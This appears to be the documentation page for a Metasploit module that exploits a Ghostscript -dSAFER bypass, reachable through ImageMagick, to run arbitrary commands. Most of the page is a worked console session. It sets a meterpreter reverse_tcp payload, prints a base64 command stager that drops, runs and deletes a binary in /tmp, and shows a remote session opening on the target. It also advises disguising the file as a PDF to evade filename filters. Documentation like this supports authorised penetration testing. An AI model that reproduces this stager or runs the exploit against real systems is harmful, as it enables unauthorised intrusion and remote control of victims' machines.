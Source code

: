## Introduction

This module exploits a `-dSAFER` bypass in Ghostscript to execute
arbitrary commands by handling a failed `restore` (`grestore`) in
PostScript to disable `LockSafetyParams` and avoid `invalidaccess`.

This vulnerability is reachable via libraries such as ImageMagick,
and this module provides the latest vector for Ghostscript.

For previous Ghostscript vectors, please see the following modules:
  `exploit/unix/fileformat/ghostscript_type_confusion`
  `exploit/unix/fileformat/imagemagick_delegate`

## Setup

Install Ghostscript and use the console command (`gs` on Unix and
`gswin64c` on Windows). You may also exploit the vulnerability through
ImageMagick using `convert` or `identify`, for example.

## Targets

```
Id  Name
--  ----
0   Unix (In-Memory)
1   PowerShell (In-Memory)
2   Linux (Dropper)
```

## Options

**FILENAME**

Set this to the output file's name. Depending on the target environment,
the file extension may not matter, so the PS file could be named
`msf.pdf`, for instance. This can potentially work around filename
filters.

**WritableDir**

Set this to a writable directory without `noexec`.

## Usage

```
msf5 > use exploit/multi/fileformat/ghostscript_failed_restore
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set target Linux (Dropper)
target => Linux (Dropper)
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set lhost 172.28.128.1
lhost => 172.28.128.1
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set disablepayloadhandler false
disablepayloadhandler => false
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set wfsdelay 3600
wfsdelay => 3600
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > set verbose true
verbose => true
msf5 exploit(multi/fileformat/ghostscript_failed_restore) > run

[*] Started reverse TCP handler on 172.28.128.1:4444
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+QAAAAAAAAB6AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UmoKQVlWUGopWJlqAl9qAV4PBUiFwHg7SJdIuQIAEVysHIABUUiJ5moQWmoqWA8FWUiFwHklSf/JdBhXaiNYagBqBUiJ50gx9g8FWVlfSIXAecdqPFhqAV8PBV5aDwVIhcB47//m>>'/tmp/hvQlm.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/tgxVT' < '/tmp/hvQlm.b64' ; chmod +x '/tmp/tgxVT' ; '/tmp/tgxVT' ; rm -f '/tmp/tgxVT' ; rm -f '/tmp/hvQlm.b64'"]
[+] msf.ps stored at /Users/wvu/.msf4/local/msf.ps
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (816260 bytes) to 172.28.128.3
[*] Meterpreter session 1 opened (172.28.128.1:4444 -> 172.28.128.3:51648) at 2018-09-05 19:44:32 -0500

meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter > sysinfo
Computer     : 10.0.2.15
OS           : Ubuntu 16.04 (Linux 4.4.0-134-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
